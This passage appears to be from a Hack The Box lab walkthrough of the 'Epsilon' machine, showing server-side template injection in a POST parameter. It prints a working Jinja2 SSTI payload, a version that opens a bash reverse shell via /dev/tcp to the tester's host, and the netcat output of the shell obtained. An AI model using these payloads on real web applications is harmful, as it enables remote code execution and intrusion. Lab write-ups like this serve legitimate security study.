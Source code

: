 ```
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

costume=mask&q=1&addr=test

```

#### POC

I’ll send that POST to Burp Repeater and try a simple SSTI payload. It worked:

[![image-20220309151534646](https://0xdfimages.gitlab.io/img/image-20220309151534646.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220309151534646.png)

I recently went more in depth looking at [SSTI in Bolt](/2022/02/19/htb-bolt.html#ssti) (as well as a Beyond Root [video](https://www.youtube.com/watch?v=7o1J8vHdlYc) looking at how various payloads work). For Epsilon, I’ll use:

```

{{ namespace.__init__.__globals__.os.popen('id').read() }}

```

It works nicely as well:

[![image-20220309151753900](https://0xdfimages.gitlab.io/img/image-20220309151753900.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220309151753900.png)

#### Shell

I’ll update the payload to:

```

costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261"').read() }}&q=1&addr=test

```

I’ll need to URL encode the `&` character of the POST request will treat it as a break and a new parameter. I’ll use a Bash reverse shell, with `bash -c ''` to make sure it’s running in the Bash context (see the end of my deep dive [video](https://www.youtube.com/watch?v=OjkVep2EIlw) on this reverse shell for details).

On submitting in Repeater, it hangs. At my listening `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.134 38950
bash: cannot set terminal process group (949): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ 

```
